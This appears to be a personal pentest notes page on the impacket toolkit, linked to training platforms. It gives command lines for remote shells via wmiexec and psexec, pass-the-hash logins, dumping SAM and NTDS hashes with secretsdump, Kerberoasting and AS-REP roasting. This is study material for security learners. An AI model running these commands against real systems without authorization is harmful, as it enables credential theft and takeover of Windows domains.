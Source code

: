 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.7k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump -h # Example of calling a script
```

You could also install them using `pipx`:

```shell!
$ pipx install git+https://github.com/fortra/impacket
$ secretsdump.py -h # Example of calling a script
```
</div><div>

You may also want to install them manually <small>(dirty/may not work)</small>:

```shell!
$ DEST="$HOME/tools/impacket"
$ git clone -b "master" "https://github.com/fortra/impacket" $DEST
$ pip install --user -r $DEST/requirements.txt
$ pip install --user $DEST
$ python $DEST/examples/secretsdump.py [...]
```

📚 You can refer to [thehacker.recipes](https://tools.thehacker.recipes/impacket) for a list of scripts.
</div></div>

<hr class="sep-both">

## Impacket Overview

<div class="row row-cols-lg-2"><div>

#### Impacket 'target' parameter

Most scripts operating require a **target** such as `username@IP`. You can specify the password within the command.

```shell!
$ impacket-xxx username@IP
$ impacket-xxx username@IP -no-pass
$ impacket-xxx username:password@IP
$ impacket-xxx username:password@IP -windows-auth
$ impacket-xxx domain/username:'password'@IP
```

`-windows-auth` can be specified to indicate that we want to use local authentication <small>(`.\username`)</small> instead of Active Directory authentication.
</div><div>

#### Impacket Alternative Logins

On Linux, as per to these [notes](/operating-systems/cloud/active-directory/security/index.md#active-directory-on-linux), you can log in to active directory and get a TGT ticket. To use it with impacket tools, use `-k` and `-no-pass`.

```shell!
$ impacket-xxx DC01.example.com -no-pass -k
```
</div></div>

<hr class="sep-both">

## Impacket Clients

<div class="row row-cols-lg-2"><div>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP
$ impacket-mssqlclient username:password@IP
$ impacket-mssqlclient username:password@IP -windows-auth
$ impacket-smbclient -no-pass domain\username@IP -hashes lmhash:nthash
SQL> exit
```

#### smbclient

Connect to a SMB server.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
smbclient> shares
smbclient> use share_name
smbclient> ls
smbclient> tree
```
</div><div>

#### wmiexec

Pop a semi-interactive shell using [DCOM](/operating-systems/networking/protocols/dcom.md). It runs commands as Local Administrator if possible, but creates a new process per command.

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

#### smbexec

XXX.

```shell!
$ impacket-smbexec username:password@IP
```

#### psexec

Pop a semi-interactive remote shell using RemComSvc. It runs commands as SYSTEM to it's quite suspicious and making noise.

```shell!
$ impacket-psexec username:password@IP
$ impacket-psexec [...] -hashes lmhash:nthash
$ impacket-psexec [...] -hashes :nthash
$ impacket-psexec [...] -target-ip 172.16.5.5
$ impacket-psexec [...] -k -no-pass
```
</div></div>

<hr class="sep-both">

## Impacket Servers

<div class="row row-cols-lg-2"><div>

#### smbserver

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ # impacket-smbserver -smb2support share_name /path/to/share
$ impacket-smbserver -smb2support share .
$ # impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support -username username -password password share .
```
</div><div>
</div></div>

<hr class="sep-both">

## Windows Utilities

<div class="row row-cols-lg-2"><div>

#### secretsdump

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL
$ impacket-secretsdump [...] -outputfile cracked 
<output format is explained in the output>
```

You can remotely dump hashes using:

```shell!
$ impacket-secretsdump domain/username:password@target
$ impacket-secretsdump [...] -just-dc # ???
$ impacket-secretsdump [...] -just-dc-user krbtgt
$ impacket-secretsdump [...] -just-dc-user 'example.com/username'
$ impacket-secretsdump [...] -outputfile hashes
$ impacket-secretsdump [...] -hashes lmhash:nthash
$ impacket-secretsdump [...] -dc-ip IP
```

#### ticketConverter

Convert tickets.

```shell!
$ impacket-ticketConverter xxx yyy.kirbi # from ccache to kirbi
$ impacket-ticketConverter xxxx.bin xxx.kirbi # same
$ impacket-ticketConverter xxx.kirbi xxx.ccache # from kirbi to ccache
```
</div><div>

#### GetUserSPNs

Refer to Kerberoasting.

```shell!
$ impacket-GetUserSPNs EXAMPLE.COM/username -k -no-pass
$ impacket-GetUserSPNs EXAMPLE.COM/username@EXAMPLE.COM -k -no-pass
$ impacket-GetUserSPNs -dc-ip IP domain/user:password # list all
$ impacket-GetUserSPNs -dc-ip IP domain/user:password -request # get TGS for all
$ impacket-GetUserSPNs -dc-ip IP domain/user:password -request-user cn -outputfile cn_tgs # get TGS for 'cn'
$ impacket-GetUserSPNs [...] -target-domain dev.example.com
```

#### GetNPUsers

Refer to asreproasting.

```shell!
$ impacket-GetNPUsers -dc-ip IP -usersfile valid_users.txt domain/junkusername -no-pass
```

#### GetNPUsers

Refer to GPO Passwords.

```shell!
$ impacket-Get-GPPPassword -xmlfile Groups.xml LOCAL
```

</div></div>

<hr class="sep-both">

## Impacket MS-RPC Utilities

<div class="row row-cols-lg-2"><div>

Refer to [MS-RPC](/operating-systems/networking/protocols/rpc.md#rpc-smb-footprinting).

#### samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

#### lookupsid

Expose the domain SID and groups/usernames RID using brute force.

```shell!
$ impacket-lookupsid username:password@IP
$ impacket-lookupsid -domain-sids username:password@IP
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ impacket-dpapi unprotect -file xxx -key "xxx"
```
</div><div>
</div></div>